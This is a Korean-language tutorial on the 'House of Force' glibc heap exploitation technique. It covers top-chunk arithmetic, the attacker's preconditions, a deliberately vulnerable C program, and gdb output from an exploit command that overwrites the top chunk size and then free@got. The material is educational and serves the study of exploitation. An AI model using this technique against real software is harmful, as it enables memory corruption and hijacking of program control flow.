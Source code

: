 # **The House_of_Force**

### **Top Chunk**
 
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc,char *argv[]){
	int size;
	char *buf1, *buf2, *buf3;
	
	buf1 = malloc(256);
	buf2 = malloc(256);
	buf3 = malloc(256);

	free(buf3);
	free(buf2);
	free(buf1);
}
```

일반적으로 Heap 영역에 할당되는 0x21000에서 malloc하여 할당된 chunk size를 뺀 값이 Top Chunk의 크기이다. 

```
0x21000 - 0x110(malloc) = 0x20ef0
0x20ef0 - 0x110(malloc) = 0x20de0
0x20de0 - 0x110(malloc) = 0x20cd0
```

Top Chunk는 재사용 가능한 Chunk가 없고, Top Chunk의 크기가 요청 크기보다 작을 경우 Top Chunk에서 나눠서 할당을 해준다.

Top Chunk에 인접한 Chunk가 free되면 병합하는데 fastbin의 경우 병합에서 제외된다.

```
0x20cd0 + 0x110(free) = 0x20de0
0x20de0 + 0x110(free) = 0x20ef0
0x20ef0 + 0x110(free) = 0x21000
```

## **Condition**

* 공격자에 의해 Top Chunk를 덮어쓸 수 있어야 함(0xffffffffffffffff)
* 공격자에 의해 할당되는 Heap 크기를 제어할 수 있어야 함
* 공격자에 의해 할당된 Chunk 영역에 값을 저장할 수 있어야 함

## **Exploit Plan**

1. Heap 영역 생성
1. Top Chunk 변조
1. 계산된 값을 malloc 인자 값으로 전달해 메모리를 할당
    * Target Address - Allocated Chunk Header Size(16 or 8) - Top Chunk Address
1. 다시 malloc 호출
    * 공격자가 원하는 영역이 할당됨

## **Proof of Concept**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
 
int main(int argc, char *argv[])
{
        char *buf1, *buf2, *buf3;
        if (argc != 4) return;
 
        buf1 = malloc(256);
        strcpy(buf1, argv[1]);
 
        buf2 = malloc(strtoul(argv[2], NULL, 16));
 
        buf3 = malloc(256);
        strcpy(buf3, argv[3]);
 
        free(buf3);
        free(buf2);
        free(buf1);
 
        return 0;
}
```

argv1 Overflow를 통해 Top Chunk를 0xffffffffffffffff로 변조한다.

```
gdb-peda$ heapbase
heapbase : 0x602000
gdb-peda$ x/24gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000111
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x4141414141414141
0x602030:	0x4141414141414141	0x4141414141414141
0x602040:	0x4141414141414141	0x4141414141414141
0x602050:	0x4141414141414141	0x4141414141414141
0x602060:	0x4141414141414141	0x4141414141414141
0x602070:	0x4141414141414141	0x4141414141414141
0x602080:	0x4141414141414141	0x4141414141414141
0x602090:	0x4141414141414141	0x4141414141414141
0x6020a0:	0x4141414141414141	0x4141414141414141
0x6020b0:	0x4141414141414141	0x4141414141414141
0x6020c0:	0x4141414141414141	0x4141414141414141
0x6020d0:	0x4141414141414141	0x4141414141414141
0x6020e0:	0x4141414141414141	0x4141414141414141
0x6020f0:	0x4141414141414141	0x4141414141414141
0x602100:	0x4141414141414141	0x4141414141414141
0x602110:	0x4141414141414141	0xffffffffffffffff <- Top Chunk

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602110 (size : 0xfffffffffffffff8) (top is broken ?) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

"free@got(0x601018)" - "Chunk header size(0x10)" - "Top chunk address(0x602118)" - 0x8 = 0xffffeee8  
  * -0x8을 한 이유 -> Heap 영역은 0x*0 단위로 할당하기 때문

argv2에 0xffffeee8을 입력하여 해당 크기만큼 malloc을 해준다.

argv3에 BBBBBBBBCCCCCCCC를 입력하면 free@got가 변조된다.

```
gdb-peda$ r $(python -c 'print "A"*0x108+"\xff"*8') 0xffffffffffffeee8 BBBBBBBBCCCCCCCC

gdb-peda$ x/24gx 0x601018-0x10
0x601008:	0x0000000000000111	0x4242424242424242
0x601018:	0x4343434343434343	0x00007ffff7ab2900
0x601028:	0x00007ffff7a2d740	0x00007ffff7a91130
0x601038:	0x00007ffff7a483f0	0x0000000000000000
```

**References**  
<https://www.lazenca.net/display/TEC/The+House+of+Force>
<https://hackstoryadmin.tistory.com/entry/What-is-heap-part1>